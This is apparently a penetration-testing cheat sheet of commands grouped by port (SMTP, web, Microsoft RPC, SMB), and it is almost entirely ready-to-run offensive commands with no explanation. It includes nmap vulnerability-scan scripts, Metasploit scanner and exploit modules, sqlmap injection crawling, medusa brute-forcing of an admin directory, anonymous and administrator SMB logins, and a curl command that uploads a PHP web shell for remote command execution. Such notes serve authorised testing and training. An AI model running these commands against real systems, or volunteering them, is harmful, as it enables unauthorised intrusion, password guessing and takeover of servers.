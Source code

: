 
## Port 25 (SMTP)
```
nmap –script smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 10.0.0.1
```
```
nc -nvv INSERTIPADDRESS 25
```
```
telnet INSERTIPADDRESS 25
```
**Metasploit Modules for SMTP service**
- auxiliary/scanner/smtp/smtp_enum
- auxiliary/scanner/smtp/smtp_ntlm_domain
- auxiliary/scanner/smtp/smtp_relay
- auxiliary/scanner/smtp/smtp_version 


## Port 80 (Web)
```
nikto -h http://192.168.1.10/
curl -v -X PUT -d '<?php shell_exec($_GET["cmd"]); ?>' http://192.168.1.10/shell.php
sqlmap -u http://192.168.1.10/ --crawl=5 --dbms=mysql
cewl http://192.168.1.10/ -m 6 -w special_wordlist.txt
medusa -h 192.168.1.10 -u admin -P  wordlist.txt -M http -m DIR:/admin -T 10
nmap -p 80 -n -v -sV -Pn --script http-backup-finder,http-config-backup,http-errors,http-headers,http-iis-webdav-vuln,http-internal-ip-disclosure,http-methods,http-php-version,http-qnap-nas-info,http-robots.txt,http-shellshock,http-slowloris-check,http-waf-detect,http-vuln* 192.168.1.10

```
- Sql Injection
- XXS Injection
- Blind  Injection


## Port 135 (Microsoft RPC)
```
nmap -n -v -sV -Pn -p 135 --script=msrpc-enum 192.168.1.10 
```
**Metasploit Exploit Module for Microsoft RPC service**
- exploit/windows/dcerpc/ms05_017_msmq


## Port 139/445 (SMB)
```
nmap -n -v -sV -Pn -p 445 --script=smb-ls,smb-mbenum,smb-enum-shares,smb-enum-users,smb-os-discovery,smb-security-mode,smbv2-enabled,smbv2-enabled,smb-vuln* 192.168.1.10
nmap IPADDR --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse
enum4linux -a 192.168.1.10
rpcclient -U "" 192.168.1.10
 >srvinfo
 >enumdomusers
 >getdompwinfo
smbclient -L 192.168.1.10
smbclient \\192.168.1.10\ipc$ -U administrator
smbclient //192.168.1.10/ipc$ -U administrator
smbclient //192.168.1.10/admin$ -U administrator
enum4linux –a 10.0.0.1
```
